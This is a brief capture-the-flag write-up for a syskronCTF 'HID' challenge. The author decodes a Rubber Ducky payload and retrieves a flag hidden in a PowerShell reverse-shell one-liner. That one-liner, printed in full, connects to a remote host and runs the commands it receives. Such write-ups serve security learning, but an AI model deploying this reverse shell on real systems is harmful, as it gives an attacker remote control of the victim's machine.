



# HID


[attachment file](../../assets/Wednesday/inject.bin)

We think, It is probably related to usb rubberducky.
so at the [ducktoolkit](https://ducktoolkit.com/decode#) we decode binary file with Germany layout



There was a [pastebin](https://pastebin.com/raw/ZRD8jsvd) link at result


It was contain flag

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10syskronCTF{y0u_f0und_m3}",80);$stream = $client.GetStream();[byte[)$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Flag : `syskronCTF{y0u_f0und_m3}`
